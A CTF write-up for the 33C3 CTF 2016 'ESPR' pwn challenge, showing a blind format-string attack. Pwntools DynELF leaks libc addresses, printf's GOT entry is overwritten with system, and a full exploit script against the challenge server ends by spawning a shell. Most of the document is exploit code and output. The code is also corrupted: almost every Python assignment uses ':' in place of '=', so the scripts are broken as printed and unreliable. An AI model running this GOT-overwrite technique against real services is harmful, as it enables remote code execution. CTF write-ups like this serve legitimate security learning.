 ```yaml
---
type: ctf
title : 33C3 CTF 2016 - ESPR
tags: [C33C3 CTF, ESPR]
date : 2016-12-29
author: Eno Leriand
featuredImage: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTB9f_AdXlw1mFJMSVsB2LbBIvZhPfuwrZm2M3oKmcm4wxH9BFjmT_EWF11sDSe7C7f7wQ&usqp=CAU
---
```


**Category:** pwn
**Points:** 150

This time there's no binary or libc.so provided, only an image looks like this:
```

eat:                  sleep:
+-----------------+   +----------------+
| sub rsp, 0x100  |   | mov edi, 0x1   |
| mov rdi, rsp    |   | call _sleep    |
| call _gets      |   |                |
|                 |   |                |
+-----------------+   +----------------+
pwn:                  repeat:
+-----------------+   +----------------+
| mov rdi, rsp    |   |                |
| call _printf    |   | jmp eat        |
| add rsp, 0x100  |   |                |
|                 |   |                |
+-----------------+   +----------------+
```

Interesting...

So apparently the program has two vulnerabilities: **stack overflow** & **format string**. Since we can't actually exploit the stack overflow vulnerability (the program likely won't return because of the infinite loop), we'll have to focus on the format string vulnerability and exploit the service without having the binary file.

So how are we gonna do this? Fortunately, [pwntools](https://github.com/Gallopsled/pwntools) is here to rescue! **By using the amazing [DynELF](http://docs.pwntools.com/en/stable/dynelf.html) module, we're able to resolve & leak some address without the need for binary!** 

First we'll need a `leak` function to let pwntools able to leak data at an arbitrary address. Here we exploit the format string vulnerability to leak an arbitrary address: 
```python leak
def leak(addr):
    payload : "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp : r.recvuntil(".AAA")
    ret : resp[:-4:] + "\x00"
    print "ret:", repr(ret)
    r.recvrepeat(0.2) # receive the rest of the string
    return ret
```
Then we need a pointer into the binary. I got the pointer by entering `%30$p`, which returned `0x40060d`. Now we can use the `DynELF` module to help us resolve some function addresses.

First we'll need to resolve the address of `printf` and `system`:
```python leak library addresses
d : DynELF(leak, 0x40060d)
system_addr : d.lookup('system', 'libc')
printf_addr : d.lookup('printf', 'libc')

log.success("printf_addr: "+hex(printf_addr))
log.success("system_addr: "+hex(system_addr))
```

It took a while because of `sleep(1)`, and pwntools will need a lot of addresses to resolve those functions.
```
[+] printf_addr: 0x7fb040a17550
[+] system_addr: 0x7fb040a066d0
```

OK so now we know the offset between `printf` and `system`. Next time we'll just have to leak `printf@got.plt`, calculate `system`'s address and use it to overwrite `printf`'s GOT entry, finally we'll be able to hijack `printf`'s GOT and call `system("sh")` by entering "sh".

But first we'll have to know the address of `printf@got.plt`. Luckily, not only can `DynELF` resolve function addresses, it can also resolve some useful addresses such as the pointer to the `.dynamic` section:
```python resolve .dynamic section
d : DynELF(leak, 0x40060d)
dynamic_ptr : d.dynamic
```

Once we got the `.dynamic` section's address, we can use it to locate the `.got.plt` area:
```
Dynamic section at offset 0xe28 contains 24 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x400400
 0x000000000000000d (FINI)               0x400614
 0x0000000000000019 (INIT_ARRAY)         0x600e10
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x600e18
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x400298
 0x0000000000000005 (STRTAB)             0x400330
 0x0000000000000006 (SYMTAB)             0x4002b8
 0x000000000000000a (STRSZ)              68 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x601000  <--- here
```
```python resolve PLTGOT
    cnt : 0
    while True:
        addr : dynamic_ptr + 0x10*cnt
        ret : leak(addr)
        if ret == "\x03\x00": #TYPE PLTGOT
            addr += 8
            for i in xrange(8):
                ret : leak(addr+i)
                print "ret:", ret.encode('hex')
            break
        else:
            cnt += 1
```

Now we can find where `printf@got.plt` is, by leaking all the GOT entry and compare the low 12 bits of the function address (see if it ends with `550`):
```python resolve printf@got.plt
got : 0x601000
for i in xrange(8):
    addr : got + i*8
    ret : leak(addr)
    print "ret:", ret.encode('hex')
```

Finally, we can start exploiting the service:
```python exp_espr.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST : "78.46.224.86"
PORT : 1337
# setting 
context.arch : 'amd64'
context.os : 'linux'
context.endian : 'little'
context.word_size : 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level : 'INFO'

def leak(addr):
    payload : "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp : r.recvuntil(".AAA")
    ret : resp[:-4:] + "\x00"
    print "ret:", repr(ret)
	r.recvrepeat(0.2)
    return ret
    
if __name__ == "__main__":

    r : remote(HOST, PORT)

    printf_got : 0x601018
    printf_addr : u64(leak(printf_got).ljust(8, "\x00"))
    system_addr : printf_addr - 0x10e80 # remote

    log.success("printf_addr: "+hex(printf_addr))
    log.success("system_addr: "+hex(system_addr))

    byte1 : system_addr & 0xff
    byte2 : (system_addr & 0xffff00) >> 8
    log.success("byte1: "+hex(byte1))
    log.success("byte2: "+hex(byte2))

    payload : "%" + str(byte1) + "c" + "%10$hhn."
    payload += "%" + str(byte2-byte1-1) + "c" + "%11$hn."
    payload : payload.ljust(32, "A")
    payload += p64(printf_got) + p64(printf_got+1)
    r.sendline(payload)
    r.sendline("sh\x00")
    r.interactive()
```

flag: `33C3_f1rst_tshirt_challenge?!`
